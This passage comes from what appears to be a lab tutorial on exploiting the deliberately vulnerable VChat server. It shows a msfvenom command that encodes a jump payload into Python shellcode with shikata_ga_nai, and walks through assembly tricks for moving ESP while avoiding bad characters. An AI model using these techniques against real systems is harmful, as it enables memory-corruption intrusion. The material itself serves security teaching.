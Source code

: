 		* The results shown above show us we can use this in the exploit. We could use it by modifying the command to output the shellcode in the format expected by Python, as shown below! However, we have not used the complete list of bad characters, so this will lead to a crashed program if used!

		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -f python -v SHELL -b '\x00x\0a\x0d'
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
		x86/shikata_ga_nai succeeded with size 32 (iteration=0)
		x86/shikata_ga_nai chosen with final size 32
		Payload size: 32 bytes
		Final size of python file: 180 bytes
		SHELL =  b""
		SHELL += b"\xbe\x55\xf3\x3a\xe6\xda\xdd\xd9\x74\x24\xf4\x5f"
		SHELL += b"\x29\xc9\xb1\x02\x31\x77\x13\x03\x77\x13\x83\xc7"
		SHELL += b"\x51\x11\xcf\x0f\x1a\x27\xcf\x2f"
		```

	4. The primary focus of this will be manually encoding the long jump instruction, but an example using the [`x86/shikata_ga_nai`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/shikata_ga_nai) output is included in [exploit7a.py](./SourceCode/exploit7a.py); we can see there are a few issues!

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/7bcab6a2-4b9a-4f8d-99bb-676b9a7855d4

		* Below is the encoded shellcode once it has been injected.

			<img src="Images/I31.png" width=600>

4. Now, we can manually encode a short jump and set the ESP value to one in our execution path! This is so we can have space to use a pre-made encoder to create our long jump!

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/d75ea194-1beb-4e5d-b9a0-3addc3748fe0

	1. First, we want to adjust the `ESP` register's value so that during our exploit, we do not overwrite our own shellcode. The following instructions can help us do this.
	```
	PUSH ESP  		   ; Push the ESP register's value onto the stack
	POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
	ADD AX,0x<VALUE>  ; Add to the lower 16 bytes of the register
	PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
	POP ESP            ; Pop the adjusted ESP value into the ESP register
	```
	* For the add instruction, we need to do a little math! My ESP during this exploitation is at `0x010CEDE0`, and the end of the 41-byte buffer is at `0x010CFFFF`. To get this, we need to add `0x0000121F`.
		1. We could try adding this to the lower 16 bits in 2 instructions (the lower and upper lower half), however the `ADD AH,0x12` instruction has the value of `0x80C412` which contains a bad character `C4`!
			```
			ADD AL,0x1F
			ADD AH,0x12
			```
		2. Using the AX register allows us to do the addition in one instruction, without any bad characters.
			```
		    ADD AX,0x121F
			```
		3. If your addition constant contains a bad character, you may need to perform two or more additions with values containing only good characters, as shown below, to get the same result as the single addition.
		```
		; Bad Char Addition contains 0xD3
		ADD AX,0x13D3